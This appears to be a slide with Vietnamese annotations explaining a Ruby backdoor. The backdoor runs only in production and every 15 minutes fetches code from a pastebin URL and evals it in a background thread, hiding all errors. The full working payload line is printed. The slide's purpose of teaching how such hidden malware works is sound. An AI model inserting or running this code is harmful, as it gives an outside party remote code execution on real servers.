

def _!
	begin
	 	yield
	rescue Exception
	end
end
_!{Thread.new{loop{_!{sleep 900;eval(open('https://pastebin.com/raw/5iNdELNX').read)}}}if Rails.env[0]=="p"}
evn[0]==“p” -> chỉ chạy khi ứng dụng ở chế độ production.
Thread.new tạo một luồng mới tránh ảnh hưởng đến hiệu suất của ứng dụng.
Mã sẽ chạy mỗi 15 phút một lần,và lấy dữ liệu từ pastebin chạy hàm eval.
Rescue Exception -> bỏ qua các lỗi có thể phát sinh.